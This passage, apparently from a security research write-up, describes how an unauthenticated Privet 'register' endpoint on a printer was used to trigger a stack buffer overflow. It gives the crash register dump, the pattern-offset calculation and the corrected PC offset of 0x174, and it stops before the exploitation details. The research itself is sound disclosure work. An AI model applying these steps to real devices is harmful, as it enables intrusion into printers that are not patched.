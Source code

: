 After reading the [documentation](https://developers.google.com/cloud-print/docs/privet) and reversing the code, it appeared that the `register` URL was accessible without authentication and called the vulnerable
code.

# Exploitation

## Triggering the bug

Using a pattern generated with [rsbkb](https://github.com/trou/rsbkb), we were able to get the following crash on the serial port:

```text
Dry> < Error Exception >
 CORE : 0
 TYPE : prefetch
 ISR  : FALSE
 TASK ID   : 269
 TASK Name : AsC2
 R 0  : 00000000
 R 1  : 00000000
 R 2  : 40ec49fc
 R 3  : 49789eb4
 R 4  : 316f4130
 R 5  : 41326f41
 R 6  : 6f41336f
 R 7  : 49c1b38c
 R 8  : 49d0c958
 R 9  : 00000000
 R10  : 00000194
 R11  : 45c91bc8
 R12  : 00000000
 R13  : 4978a030
 R14  : 4167a1f4
 PC   : 356f4134
 PSR  : 60000013
 CTRL : 00c5187d
        IE(31)=0
```

Which gives:

```text
$ rsbkb bofpattoff 4Ao5
Offset: 434 (mod 20280) / 0x1b2
```

Astute readers will note that the offset is too big compared to the local stack frame size, which is only 0x178 bytes. Indeed, the correct offset for `PC`, from the start of the local buffer is 0x174. The 0x1B2 which we found using the buffer overflow pattern actually triggers a crash elsewhere and makes exploitation way harder. So remember to always check if your offsets make sense.

## Buffer overflow

